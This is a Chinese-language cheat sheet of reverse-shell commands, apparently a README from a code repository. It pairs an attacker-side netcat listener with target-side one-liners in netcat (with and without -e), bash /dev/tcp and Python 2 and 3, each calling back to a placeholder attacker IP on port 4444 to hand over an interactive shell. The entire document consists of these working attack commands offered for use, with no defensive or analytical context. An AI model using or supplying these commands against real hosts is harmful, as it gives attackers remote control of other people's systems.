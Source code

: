 反弹shell是指通过特定命令或工具，将目标主机的一个shell反弹回到攻击者的机器上。以下是常见的反弹shell命令，适用于不同的环境和工具。

### 1. Netcat (nc)

#### 简单的Netcat反弹shell
```bash
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
nc -e /bin/sh <攻击者IP> 4444
```

#### Netcat反弹shell（无-e选项）
某些版本的Netcat不支持`-e`选项，可以使用以下方法：
```bash
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
mkfifo /tmp/f; nc <攻击者IP> 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

### 2. Bash

#### Bash反弹shell
```bash
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
bash -i >& /dev/tcp/<攻击者IP>/4444 0>&1
```

### 3. Python

#### Python 2反弹shell
```bash
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<攻击者IP>",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

#### Python 3反弹shell
```bash
# 攻击者机器（监听端口）
nc -lvnp 4444

# 目标机器（发起连接）
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<攻击者IP>",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'
```

